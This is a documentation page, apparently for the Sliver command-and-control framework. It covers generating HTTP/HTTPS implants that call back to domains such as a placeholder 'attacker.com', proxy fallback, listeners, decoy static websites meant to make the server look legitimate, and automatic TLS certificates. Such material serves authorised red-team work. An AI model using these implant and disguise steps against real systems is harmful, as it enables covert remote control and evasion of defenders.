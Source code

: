 
⚠️ __This page is a work in progress__

# Setup

Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous. There are separate commands for the listeners but an implant generated with `--http` may attempt to connect over both HTTP and HTTPS (see "under the hood" for more details.
 

## Generate the Implant

Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:

#### Basic Example

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```

#### Multiple Domains

You can also specify multiple domains, in the event the implant cannot connect to the first it will subsequently attempt to connect to each domain you specified in order. Subsequent attempts are made based on the `--reconnect` argument (default 60 seconds). If no attempts are successful, the implant will looped across all of the domains until `--max-errors` (default 1000) is reached, at which point the implant will terminate execution:

```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```

#### Proxies

The implant attempts to auto-detect proxy settings using a modified version of the [go-get-proxied](https://github.com/rapid7/go-get-proxied) library. It supports detection of system proxy settings on Windows, MacOS, and Linux. In the event the implant cannot make a successful HTTP/HTTPS connection for a given domain using the system proxy settings, it will also attempt to make a connection to the same domain ignoring the proxy settings. The order of connection attempts is as follows:

1. HTTPS over system proxy
1. HTTP over system proxy
1. HTTPS direct connect
1. HTTP direct connect


## Start the Listener 

```
sliver > http
```

```
sliver > https
```

## Static Content

Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command. 

```
websites --website fake-blog --web-path / --content ./index.html add
```


## SSL/TLS Certificates

The `http` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > https --domain example.com --lets-encrypt

```

# Under the Hood



